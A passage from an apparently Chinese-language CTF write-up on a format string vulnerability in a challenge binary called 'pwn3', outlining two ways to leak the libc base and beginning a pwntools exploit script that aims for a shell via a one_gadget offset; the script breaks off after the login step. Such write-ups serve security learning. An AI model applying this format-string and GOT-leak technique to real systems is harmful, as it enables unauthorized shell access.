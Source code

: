 在 `get` 这里发现了格化式字符串漏洞。

![pwn3_vulnerability ](/image/2019-03-20-linux_pwn_format/pwn3_vulnerability .png)



### 利用思路

这里我发现了有两个方式得到 `libc` 的基地址。

1.通过 泄露栈空间上面的地址（由于这里栈空间的地址没有什么变化，所以可以从栈上面泄露函数地址。）

2.由于我们用 `%s` 占位符往栈上面的地址读（可以我们写任意函数 `got` 上的地址，或者利用现成的 `malloc` 的`got` 地址）

接下来我将利用这两种方式得到 `shell` ，得到 `shell` 的方式没什么可说的，直接放出 `poc`

`poc_1` :

```python
# -*- coding: utf-8 -*-
# !/usr/bin/python env
from pwn import *


def login(exp_file):
    password_raw = "sysbdmin"
    password_enc = ""
    for chars in password_raw:
        password_enc += chr(ord(chars) - 1)
    log.info("password:{password}".format(password=password_enc))
    exp_file.recvuntil("Name (ftp.hacker.server:Rainism):")
    exp_file.sendline(password_enc)


def put_file(exp_file, name, value):
    exp_file.recvuntil("ftp>")
    exp_file.sendline("put")
    exp_file.recvuntil("please enter the name of the file you want to upload:")
    exp_file.sendline(name)
    exp_file.recvuntil("then, enter the content:")
    exp_file.sendline(value)


def get_file(exp_file, name):
    exp_file.recvuntil("ftp>")
    exp_file.sendline("get")
    exp_file.recvuntil("enter the file name you want to get:")
    exp_file.sendline(name)


def main():
    debug = 1
    if debug:
        exp_file = process("./pwn3")
        elf_file = ELF("./pwn3")
        libc_file = ELF("/lib/i386-linux-gnu/libc.so.6")
        one_gadget_offset = 0x3ac69  # execve("/bin/sh", esp+0x34(Null), environ)
        # print(exp_file.libs())
    else:
        exp_file = remote("127.0.0.1", 10000)
        elf_file = ELF("./pwn3")
        libc_file = ELF("/lib/i386-linux-gnu/libc.so.6")
        one_gadget_offset = 0x3ac69
        # print(exp_file.libs())

    # Using a format string vulnerability to leak the base address of libc
    login(exp_file)
```